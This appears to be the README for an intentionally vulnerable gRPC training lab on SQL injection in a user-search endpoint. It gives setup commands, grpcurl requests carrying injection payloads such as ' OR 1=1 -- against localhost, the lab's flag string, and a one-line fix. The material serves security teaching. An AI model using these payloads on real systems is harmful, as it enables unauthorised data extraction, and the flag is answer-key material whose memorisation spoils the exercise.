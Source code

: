 # Lab 007: SQL Injection

## Vulnerability
User Directory service with SQL injection vulnerability in username search (read-only database for safety).

## Objective
Exploit SQL injection to extract the flag user data.

## Run the Lab
```bash
# Build and run
docker build -t grpc-007 .
docker run -p 8007:8007 grpc-007
```

## Exploit

```bash
# Install grpcurl
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Normal search
grpcurl -plaintext -d '{
  "username": "john"
}' localhost:8007 userdirectory.UserDirectory/SearchUsers

# SQL injection to get all users
grpcurl -plaintext -d '{
  "username": "' OR 1=1 --"
}' localhost:8007 userdirectory.UserDirectory/SearchUsers

# Extract flag user specifically
grpcurl -plaintext -d '{
  "username": "' OR username='flag_user' --"
}' localhost:8007 userdirectory.UserDirectory/SearchUsers
```

## Impact
Attackers can extract user data and discover hidden accounts.

## Flag
Successfully exploit SQL injection to get: `GRPC_GOAT{sql_injection_data_exfiltration}`

## Mitigation
Use parameterized queries to prevent SQL injection.
